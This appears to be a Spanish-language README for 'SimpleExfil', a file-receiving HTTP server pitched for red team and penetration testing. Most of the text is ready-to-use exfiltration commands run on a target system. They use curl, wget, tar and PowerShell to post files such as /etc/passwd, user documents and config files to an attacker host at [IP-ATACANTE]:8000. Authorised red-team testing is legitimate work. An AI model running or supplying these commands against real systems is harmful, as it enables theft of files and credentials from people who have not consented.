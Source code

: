 # SimpleExfil
Un servidor HTTP simple para recepción de archivos diseñado para actividades de Red Team y Penetration Testing.

# Exfiltrar archivos desde sistema objetivo
bash# curl -X POST -F "file=@/etc/passwd" http://[IP-ATACANTE]:8000
bash# wget --post-file=/path/to/file http://[IP-ATACANTE]:8000

# Subir múltiples archivos
curl -X POST -F "file=@documento.txt" -F "file=@config.conf" http://[IP-ATACANTE]:8000

# Comprimir y subir directorio
tar czf - /home/user/documents/ | curl -X POST -F "file=@-;filename=documents.tar.gz" http://[IP-ATACANTE]:8000

# PowerShell (Windows)
powershell# Invoke-RestMethod -Uri "http://[IP-ATACANTE]:8000" -Method Post -InFile "C:\Users\user\document.txt" -ContentType "multipart/form-data"

# Usando WebClient
$wc = New-Object System.Net.WebClient
$wc.UploadFile("http://[IP-ATACANTE]:8000", "C:\Users\user\file.txt")

🔧 Configuración
Puedes modificar las siguientes variables al inicio del script:
pythonPORT = 8000              # Puerto de escucha
UPLOAD_DIR = "./uploads"       # Directorio de destino
